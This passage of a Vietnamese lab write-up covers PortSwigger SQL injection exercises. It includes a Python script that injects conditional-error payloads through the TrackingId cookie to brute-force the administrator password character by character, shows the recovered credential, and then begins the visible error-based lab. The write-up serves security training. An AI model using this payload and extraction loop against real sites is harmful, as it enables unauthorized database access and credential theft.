 
Tiếp theo, chúng ta cần lấy lần lượt từng kí tự trong password rồi so sánh với một kí tự để kiểm tra, nếu không có lỗi thì chúng ta sẽ lấy kí tự đó.

Em viết script sau để tìm được password.

```python
import requests
import string

url = "https://0a4000a50496098781107f6d00a500f7.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId": f"' || (SELECT CASE WHEN SUBSTR(password, {i}, 1)='{j}' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || '"}
        r = requests.get(url, cookies=cookie)
        
        if r.status_code == 200:
            password += j
            break

print(f"administrator:{password}")
```

Và cuối cùng đăng nhập thành công với `administrator`:`anvjib2zbhzn8fb0sbnc`.

### Lab 13: [Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

> This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.
>
> The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

Em thử thêm dấu `'` vào giá trị của cookie `TrackingId` thì thấy lỗi xuất hiện:

![lab-13](images/lab-13/lab-13.png)
